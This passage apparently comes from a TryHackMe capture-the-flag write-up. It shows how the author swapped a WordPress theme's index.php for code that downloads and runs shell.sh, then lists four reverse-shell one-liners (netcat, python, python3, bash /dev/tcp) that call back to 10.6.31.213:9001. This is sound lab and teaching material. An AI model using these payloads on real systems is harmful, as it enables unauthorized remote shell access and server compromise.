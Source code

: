 ### Editing the content of index.php
![9](/assets/images/thm/jeff/9.png)
Here I have replaced the main index.php of the theme **twenty seventeen** with my PHP code, which gets a file `shell.sh` from my local box and executes the file.

### Contents of shell.sh
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
bash -i >& /dev/tcp/10.6.31.213/9001 0>&1
```
### Activating New theme
![10](/assets/images/thm/jeff/10.png)
